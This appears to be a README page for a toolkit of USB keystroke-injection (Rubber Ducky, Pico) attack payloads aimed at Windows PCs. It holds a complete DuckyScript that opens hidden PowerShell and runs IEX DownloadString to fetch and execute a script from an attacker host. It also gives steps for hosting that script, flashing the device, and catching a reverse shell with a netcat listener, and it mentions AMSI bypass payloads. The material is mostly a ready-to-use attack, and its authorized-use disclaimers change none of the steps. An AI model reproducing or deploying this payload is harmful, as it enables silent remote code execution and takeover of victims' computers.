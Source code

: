 

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
</head>
<body>
  <h1>HID-based PowerShell Payload Toolkit</h1>
  <h2>Automated Payload Delivery Using USB Rubber Ducky &amp; Raspberry Pi Pico</h2>

  <p>
    This toolkit provides ready-to-deploy DuckyScript (<code>.ducky</code>) payloads for use with USB Rubber Ducky, Digispark, or Pico HID attack platforms.<br>
    <strong>Not for manual execution—these are keyboard emulation scripts only.</strong>
  </p>
  <blockquote>
    <strong>For legal, authorized penetration testing and education only!</strong>
  </blockquote>

  <ol>
    <li>
      <h3>Quick Start</h3>
      <p><strong>Clone the Repository:</strong></p>
      <pre><code>git clone https://github.com/YOUR_USERNAME/hid-powershell-payloads.git
cd hid-powershell-payloads
</code></pre>
    </li>
    <li>
      <h3>Prepare Your Payloads</h3>
      <p><strong>Edit the Payloads</strong></p>
      <ul>
        <li>DuckyScript files (<code>payload.ducky</code>) are provided.</li>
        <li>Replace all placeholders (<code>YOUR_IP</code>, <code>PORT</code>, <code>YOUR_FILE.ps1</code>) in the scripts with your own attack server details.
          <pre><code>STRING IEX (New-Object Net.WebClient).DownloadString('http://YOUR_IP:PORT/YOUR_FILE.ps1')
</code></pre>
        </li>
        <li>Host your payload <code>.ps1</code> file(s) using a simple HTTP server:
          <pre><code>python3 -m http.server 8000
</code></pre>
        </li>
      </ul>
    </li>
    <li>
      <h3>Flash Ducky Script to Your Device</h3>
      <ul>
        <li><strong>For Rubber Ducky:</strong>
          <ul>
            <li>Convert your <code>.ducky</code> file to <code>inject.bin</code> using
              <a href="https://github.com/hak5darren/USB-Rubber-Ducky/wiki/duckencode" target="_blank">Hak5 DuckEncoder</a>:
              <pre><code>java -jar duckencode.jar -i payload.ducky -o inject.bin
</code></pre>
            </li>
            <li>Flash <code>inject.bin</code> onto your Rubber Ducky’s micro SD.</li>
          </ul>
        </li>
        <li><strong>For Raspberry Pi Pico, Digispark, etc.:</strong>
          <ul>
            <li>Convert <code>.ducky</code> to the correct format required by your firmware (e.g., Duckyscript to CircuitPython for Pico).</li>
            <li>Copy to device as per your toolkit’s guidelines.</li>
          </ul>
        </li>
      </ul>
    </li>
    <li>
      <h3>Plug in and Attack</h3>
      <ul>
        <li>Insert your HID device into the <strong>target Windows PC</strong>.</li>
        <li>The HID emulates keyboard input:
          <ul>
            <li>Opens <kbd>Win+R</kbd>, launches hidden PowerShell.</li>
            <li>Types/downloads/executes your remote payload—<strong>NO user interaction needed</strong>.</li>
          </ul>
        </li>
        <li>On your attacker machine, set up a Netcat listener (for reverse shells):
          <pre><code>nc -lvnp L_PORT
</code></pre>
          <p>Replace <code>L_PORT</code> with your port.</p>
        </li>
      </ul>
    </li>
    <li>
      <h3>Example DuckyScript Payload</h3>
      <pre><code>DELAY 1000
GUI r
DELAY 500
STRING powershell -WindowStyle Hidden
ENTER
DELAY 800
STRING IEX (New-Object Net.WebClient).DownloadString('http://YOUR_IP:PORT/YOUR_FILE.ps1')
ENTER
</code></pre>
      <ul>
        <li><strong>Edit:</strong> Change the URL to your IP/port/filename.</li>
        <li>Place the corresponding <code>.ps1</code> (e.g., reverse shell or AMSI bypass) on your server before use.</li>
      </ul>
    </li>
  </ol>

  <h3>Legal/Ethical Use</h3>
  <blockquote>
    These payloads automate attack delivery for red teamers, CTF players, and security researchers—not intended for manual use!<br>
    <strong>Never use on systems or networks without WRITTEN permission.</strong>
  </blockquote>
</body>
</html>
